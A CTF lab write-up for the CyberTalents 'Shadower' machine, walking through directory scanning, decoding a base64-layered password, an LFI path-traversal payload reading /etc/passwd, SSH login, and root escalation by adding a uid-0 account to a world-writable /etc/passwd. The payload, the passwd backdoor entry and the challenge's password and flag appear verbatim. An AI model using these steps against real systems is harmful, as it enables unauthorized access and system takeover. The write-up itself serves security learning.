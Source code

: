 ```yaml
---
title: "Challenge Name: Shadower"
date: 2024-11-27 12:01:00 +0000
categories: [CTF, CyberTalents]
tags: [Writeup, Machines, Cybersecurity, CyberTalents]
pin: false
---
```


# **Get The highest privilege on the machine and find the flag!**

![Screenshot](/assets/img/machine%201/image.png)

This is our target’s first page. Let’s start with the basics, such as scanning the page source and inspecting the elements.

Okay, nothing interesting here. 

Next, let’s check for subdomains using the `Dirb` tool.

`dirb http://18.144.101.226/ /path/to/your/wordlist.txt`

![Screenshot](/assets/img/machine%201/image-1.png)


Yeah, we found two subdomains:

![Screenshot](/assets/img/machine%201/image-2.png)


let’s access them using our browser:

![Screenshot](/assets/img/machine%201/image-3.png)


nothing interesting in index.html, let’s try `index.php`

![Screenshot](/assets/img/machine%201/image-4.png)


We found a page with a navigation bar. Let’s open each link, check its page source, and analyze it.

![Screenshot](/assets/img/machine%201/image-5.png)

nothing important in About us, let’s check the Contact one..

![Screenshot](/assets/img/machine%201/image-6.png)


I found a secret path on the Contact page. Let’s add it to the URL and check the redirection result.

![Screenshot](/assets/img/machine%201/image-7.png)


We’ve found an encrypted line of data. I’m curious, so I’ll decrypt it right now.

Since it contains too many words, I’ll save it in a `file.txt`.


![Screenshot](/assets/img/machine%201/image-8.png)


It might even be encoded multiple times.

I’ll use this simple Python script to decode it:

![Screenshot](/assets/img/machine%201/image-9.png)


**Imports** the `base64` module: This module is used for encoding and decoding `Base64` strings.

Initializes data: It starts with the string `"place holder"`, which is just a placeholder and needs to be replaced with actual Base64-encoded data.

Loops 25 times: The code repeatedly decodes the data string using `base64.b64decode`.

Prints the final result: After decoding 25 times, the final decoded value of data is printed.

![Screenshot](/assets/img/machine%201/image-10.png)


let’s save it and run the script..

![Screenshot](/assets/img/machine%201/image-11.png)


Okay, it didn’t work. The reason might be that the number of encoding loops is either greater or less than 25.

I’ll decrease it to 24 loops and try again. Let’s see what happens...

![Screenshot](/assets/img/machine%201/image-12.png)


![Screenshot](/assets/img/machine%201/image-13.png)


And yeah, finally, we’ve got the readable password here!

*B100dyPa$$w0rd*

So, let’s think about what we should do next!

**Okay, we have the password, but for what?**

As we know, the `SSH protocol` allows us to connect to machines remotely, and it requires a username and password.

We already have the target machine’s IP address, so all we need now is the username since we’ve got the password.

So, let’s check if the application is vulnerable to Local File Inclusion (LFI) by attempting to include files from the server. A basic starting payload is to try reading the `/etc/passwd` file.

More About File Inclusion Payloads here: `https://book.hacktricks.xyz/pentesting-web/file-inclusion`

I tried a lot of payloads and this one worked :

![Screenshot](/assets/img/machine%201/image-14.png)


this is the URL before the Payload --> `http://18.144.101.226/index.php?view=contact-us.html`

After the Payload: `http://18.144.101.226/index.php?view=../../../etc/passwd`

![Screenshot](/assets/img/machine%201/image-15.png)


And yeah, we’ve got the `username` here: `john`. Let’s connect to the target machine using the SSH protocol.

```bash
ssh john@18.144.101.226
john@18.144.101.226's password:B100dyPa$$w0rd
john@ip-172-31-2-21:~$
```

![Screenshot](/assets/img/machine%201/image-16.png)



Now that we’re connected to the target machine, let’s get back to our main goal: gaining the highest privileges on the machine and finding the flag!
But for now, we are just a normal user. →

![Screenshot](/assets/img/machine%201/image-17.png)


We need to check the `/etc/passwd` file. Let’s see the permissions we have on this file by using this command:

```bash
ls -al /etc/passwd
```

![Screenshot](/assets/img/machine%201/image-18.png)



The `-rwxrwxrwx` permissions mean any user can modify `/etc/passwd`. 
This opens the door for privilege escalation. Since `/etc/passwd` stores user account details, you can potentially add a new user with elevated privileges.

**Generate the encrypted password:**
I’ll Use the `openssl` command to generate an encrypted password for the new user (let's say the username is `admin` and the password is `securePass123`):

```bash
$ openssl passwd -1 -salt newsalt securePass123
```

![Screenshot](/assets/img/machine%201/image-19.png)


This will output a password hash similar to:

```bash
$1$newsalt$wCbOH6fYktxSJfZc7Bv/y/
```

let’s Edit the `/etc/passwd` file: Open the `/etc/passwd` file with a text editor such as `nano` or `vim`:

```bash
$ nano /etc/passwd
```

we will Add the new user entry at the end of the file. The format is:

`newuser:$1$newsalt$8vwr6cZr9XMmhr1tZ9Zjw0:0:0:root:/root:/bin/bash`

In this case, we will replace `newuser` with `admin` and the `password hash` with the one we generated earlier.

The entry should now look like this:

```bash
admin:$1$newsalt$wCbOH6fYktxSJfZc7Bv/y/:0:0:root:/root:/bin/bash
```

![Screenshot](/assets/img/machine%201/image-20.png)


**I’ll Change the user to `admin`**: Now, I can switch to the new user by using the following command:

```bash 
$ su - admin
```

I’ll Enter the password (`securePass123`) when prompted.

![Screenshot](/assets/img/machine%201/image-21.png)


**Now I have root access**: I am logged in as the `admin` user, which now has **`root privileges`**. From here, I can access system files, including reading the flag or performing **administrative tasks**.

let’s list the current directory elements using the `ls`command:

```bash
ls
```

![Screenshot](/assets/img/machine%201/image-22.png)


let’s catch the flag using the `cat` command

```bash
cat root.txt
```

![Screenshot](/assets/img/machine%201/image-23.png)


*`6199b2f763edf25c1f161b275375c100`*


*thanks for reading my writeup bro, see u in the next one, and don’t forget to follow me if u liked my story!*









